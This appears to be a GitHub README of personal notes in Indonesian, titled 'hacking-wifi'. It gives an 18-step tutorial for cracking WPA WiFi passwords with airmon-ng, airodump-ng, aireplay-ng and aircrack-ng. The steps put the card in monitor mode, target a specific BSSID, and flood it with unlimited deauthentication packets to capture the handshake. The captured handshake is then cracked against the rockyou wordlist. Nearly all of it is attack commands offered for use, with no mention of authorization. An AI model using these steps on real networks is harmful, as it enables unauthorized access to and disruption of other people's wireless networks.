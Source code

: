 # hacking-wifi 
sekedar catatan jika lupa 

TUTORIAL WIFI CRACKING 

1.ip addr
2.iwconfig -mode managed
3.sudo airmon-ng check kill - mematikan semua conection
4.sudo airmon-ng start wlan0 -mode monitor
5.iwconfig - check ulang apakah sudah mode monitor
6.sudo airmon-ng - cek nama interface bisa wlan0/wlan0mon
7.sudo airodump-ng wlan0 - untuk monitor wifi tersedia (ctrl+c untuk stop scan)
8.catat bssid target contoh 98:F4:28:47:85:C8 channel 11
9.sudo airodump-ng wlan0 -d 98:F4:28:47:85:C8 - untuk show single target scan
10.sudo airodump-ng -w hack1 -c 11 --bssid 98:F4:28:47:85:C8 wlan0
11.sudo aireplay-ng --deauth 0 -a 98:F4:28:47:85:C8 wlan0 (sniff wpa hansake didapatkan)
12.ctrl + c quit all program scan berjalan 
13.buka ls folder file hack1.pap dengan wiresharks
14.cmd = wireshark hack1-01.cap
15.sudo airmon-ng stop wlan0 - monitor disable
16.cek iwconfig - mode managed lagi
17.sudo aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
18.tunggu beberapa saat aircrack mengidentifikasi sandi 

tes wifi card bisa inject
aireplay-ng -9 wlan0

iw list | grep AP$
